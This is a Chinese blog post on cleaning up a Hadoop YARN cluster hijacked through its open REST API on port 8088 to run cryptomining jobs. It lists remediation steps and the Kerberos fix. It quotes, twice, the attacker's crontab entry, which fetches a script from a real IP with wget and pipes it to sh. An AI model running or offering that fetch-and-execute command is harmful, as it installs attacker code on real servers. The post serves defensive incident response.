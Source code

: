 ```yaml
---
layout: post
categories: hadoop yarn hack
title: yarn运莫名其妙的job 导致集群变慢 一直在跑一个用户为dr.who的application
date: 2018-06-21 17:48:51 +0800
description: hadoop mapreduce 任务 莫名其妙的变多了 yarn被黑问题。
keywords: hadoop
---
```



简单介绍一下过程，现在有些人通过 hadoop 开放的restApi进行挖矿，8088 以及 8090 端口。



### 排问题
  * 1. 集群检查

    今天检查Hadoop 服务器发现Yarn上面的job莫名其妙的变多了，而且一直再跑。
    ![](http://112firshme11224.test.upcdn.net/demos/7422da30-8014-41f6-a922-55f86a3ce252.png)
    经过排查在`/tmp/ /var/tmp` 下面发现了 Java 还有tmp.txt
    内容如下：
    ![](http://112firshme11224.test.upcdn.net/demos/63c45ec8-bcbd-4fbd-98bb-ee624eb4ea70.png)

    服务器地址:`transfer.sh`

  * 2. 检查 `crontab -l ` 发现了一个莫名其妙的 job
    ```bash
    * * * * * wget -q -O - http://185.222.210.59/cr.sh | sh > /dev/null 2>&1
    ```


### 解决办法

   * 1，通过查看占用cpu高得进程，kill掉此进程

   * 2，检查/tmp和/var/tmp目录，删除java、ppc、w.conf等异常文件

   * 3 ，通过crontab -l 查看有一个* * * * * wget -q -O - http://185.222.210.59/cr.sh | sh > /dev/null 2>&1任务，删除此任务

   * 4，排查YARN日志，确认异常的application，删除处理

   * 5 再通过top验证看是否还有高cpu进程，如果有，kill掉，没有的话应该正常了。

   * 6 注意：YARN提供有默认开放在8088和8090的REST API（默认前者）允许用户直接通过API进行相关的应用创建、任务提交执行等操作，如果配置不当，REST API将会开放在公网导致未授权访问的问题，那么任何黑客则就均可利用其进行远程命令执行，从而进行挖矿等行为，黑客直接利用开放在8088的REST API提交执行命令，来实现在服务器内下载执行.sh脚本，从而再进一步下载启动挖矿程序达到挖矿的目的，因此注意并启用Kerberos认证功能，禁止匿名访问修改8088端口





#### 感谢老铁登科

转载请注明出处，本文采用 [CC4.0](http://creativecommons.org/licenses/by-nc-nd/4.0/) 协议授权

